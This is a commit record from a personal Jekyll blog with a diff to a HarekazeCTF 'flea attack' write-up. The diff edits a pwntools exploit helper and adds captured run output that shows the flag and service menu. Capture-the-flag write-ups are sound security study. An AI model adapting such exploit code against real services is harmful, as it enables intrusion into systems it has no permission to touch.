

Before and after one commit to clampz/clampz.github.io, a Jekyll site: the page built from _posts/2018-02-11-harekazectf-flea-attack.md, in a window 1280 px wide and 1400 px high, scrolled down 4377 px. Shown: the whole window, without its empty margins (249-946 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
tweaked flea attack exploit

````diff
--- a/_posts/2018-02-11-harekazectf-flea-attack.md
+++ b/_posts/2018-02-11-harekazectf-flea-attack.md
@@ -128,8 +128,7 @@ def flag_name(name, sz):
     r.sendline('{}'.format(sz))
     r.recvuntil('me: ')
     r.sendline('{}'.format(name))
-    log.success(r.recvuntil('ddr: '))
-    return r.recvline()
+    log.success(r.recvuntil('> '))
 
 def delete_name(addr):
     global r
@@ -171,13 +170,18 @@ add_name('AAAA', sz)
 add_name('BBBB', sz)
 
 flag_name('A'*25, sz)
+
 '''
 [+] Opening connection to problem.harekaze.com on port 20175: Done
 [*] flag is at: 0x204056
 [+] Done!
     Name: AAAAAAAAAAAAAAAAAAAAAAAAA
     HarekazeCTF{5m41l_smal1_f1ea_c0n7rol_7h3_w0rld}
-    Addr:
+    Addr: 204066
+    1. Add name
+    2. Delete name
+    3. Exit
+    >
 [*] Closed connection to problem.harekaze.com port 20175
 '''
 ```
````
